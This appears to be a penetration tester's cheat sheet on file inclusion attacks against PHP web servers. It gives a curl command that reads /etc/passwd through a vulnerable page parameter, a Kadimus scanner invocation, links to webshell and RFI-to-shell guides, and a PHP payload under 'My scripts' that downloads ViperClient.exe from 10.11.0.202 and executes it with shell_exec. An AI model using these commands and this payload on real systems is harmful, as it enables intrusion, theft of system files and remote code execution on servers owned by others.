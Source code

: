



### Ordered output

curl -s http://*target*/gallery.php?page=/etc/passwd

/root/Tools/Kadimus/kadimus -u http://*target*/example.php?page=

### WEBSHELLS
https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/asp

### RFI

### rfiscan.py

Located in viper-shell

Python RFIscan.py -t target -s domain -write rfi_found.txt -v 

We will try to get the webserver to access a script on an external website
1.	First try to create an evil php program and store it on kali
2.	Visit the target website and call our script in the url
3.	See the advanced kali hacker book for more details

#### Upload shell through pictures

https://null-byte.wonderhowto.com/how-to/upload-shell-web-server-and-get-root-rfi-part-1-0162818/

https://null-byte.wonderhowto.com/how-to/upload-shell-web-server-and-get-root-rfi-part-2-0162854/

#### upload shell through RFI

http://securityxploded.com/remote-file-inclusion.php

#### from RFI to shell

https://penetrate.io/2014/01/10/from-rfi-to-shell/

#### exploit RFI

https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/

#### My scripts

put the following contents into a payload.php

```
<pre style="text-align:left;">

<?php

//file_put_contents("C:\Users\Offsec\AppData\Roaming\Microsoft\Windows\Start //Menu\Programs\Startup\ViperClient.exe", 

fopen("http://10.11.0.202/ViperClient.exe", 'r'));

//echo shell_exec("C:\Users\Offsec\AppData\Roaming\Microsoft\Windows\Start //Menu\Programs\Startup\ViperClient.exe");
	
file_put_contents("C:\Users\ViperClient.exe", fopen("http://10.11.0.202/ViperClient.exe", 'r'));

echo shell_exec("C:\Users\ViperClient.exe");

?>

</pre>

```
